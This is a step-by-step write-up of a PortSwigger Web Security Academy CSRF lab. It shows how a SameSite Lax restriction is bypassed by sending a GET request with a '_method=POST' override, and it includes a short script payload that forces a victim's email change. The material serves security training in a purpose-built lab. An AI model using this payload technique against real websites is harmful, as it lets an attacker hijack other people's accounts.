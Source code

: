 ## Welcome, my friend. Today we will start the [7. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-lax-restrictions-using-get-requests/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override#) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/dcf705e5-9043-457f-8954-0e8262022974)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/940296c3-b5d9-4dad-a038-661fe86d91e1)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/bb9032af-bd0a-4f0a-8970-281fd947e24c)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/996c62f5-df3a-44a7-bc0a-57d200be5757)

#### We need do this task but through our victim by CSRF, we should intercept this request of update email by burp suite.

![image](https://github.com/user-attachments/assets/af3175cd-b994-4ccf-bc37-41bc2234f20b)


### Let's change GET Method:

![image](https://github.com/user-attachments/assets/251a343c-6cd6-49ce-9022-96afd93a1b4f)


#### HMMM 405, We will change in url in request:

```
GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
```

![image](https://github.com/user-attachments/assets/a14af64d-9f6a-4e45-ac46-97a3719105ba)


### Now, Go to exploit server and paste this code:


```
<script>
    document.location = "https://0a0d0038046495b48325cf3600cd0067.web-security-academy.net/my-account/change-email?email=new@gmail.com&_method=POST";
</script>
```

![image](https://github.com/user-attachments/assets/e1a33cd1-a29a-4b42-ac4b-568c530a9039)

![image](https://github.com/user-attachments/assets/bbaf67d2-b7b4-40ca-8ed5-a20176a21c25)




-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/1c9fe230-b538-4250-8430-f93651e64fd6" >
</p>
